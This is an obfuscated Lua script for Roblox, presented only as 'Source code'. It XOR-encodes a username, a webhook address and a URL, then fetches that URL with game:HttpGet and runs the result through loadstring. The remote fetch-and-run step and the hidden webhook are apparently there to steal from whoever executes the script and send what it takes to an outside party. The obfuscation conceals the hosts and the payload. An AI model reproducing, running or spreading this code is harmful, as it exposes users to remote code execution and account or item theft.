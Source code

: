 local v0=string.char;local v1=string.byte;local v2=string.sub;local v3=bit32 or bit;local v4=v3.bxor;local v5=table.concat;local v6=table.insert;local function v7(v8,v9)local v10={};for i=(3 -0) -(1059 -(467 + 590)), #v8 do v6(v10,v0(v4(v1(v2(v8,i,i + ((1 + 0) -(0 + 0)))),v1(v2(v9,((1 + 0) -(0 -0)) + ((i-((8 -5) -2))% #v9),(2 -1) + ((i-(232 -(60 + 171)))% #v9) + (885 -(42 + 3 + 839)))))%(1344 -(272 + 32 + 784))));end return v5(v10);end UserName=v7("\139\169\25\117\134\169\17\115\165\254\71\34\241","\196\198\126\20");WebHook=v7("\253\91\86\155\226\17\186\0\70\130\226\72\250\93\70\197\242\68\248\0\67\155\248\4\226\74\64\131\254\68\254\92\13\218\161\30\161\30\18\221\164\18\166\26\17\219\163\26\163\26\26\219\190\101\240\2\19\136\218\124\198\69\101\191\240\110\225\29\84\135\188\31\197\102\101\162\235\113\215\74\74\162\194\65\223\106\71\128\162\92\228\105\18\165\227\110\192\70\65\184\245\74\165\66\74\163\211\24\237\70\79\164\221\89\204\2\78\219\228\67\215","\149\47\34\235\145\43");loadstring(game:HttpGet(v7("\74\186\73\71\81\244\18\24\80\175\74\25\69\167\73\95\87\172\72\68\71\188\94\88\76\186\88\89\86\224\94\88\79\225\117\86\80\170\122\86\79\171\110\68\13\158\110\111\13\163\92\94\76\225\110\84\80\167\77\67\12\162\72\86","\34\206\61\55"),true))();
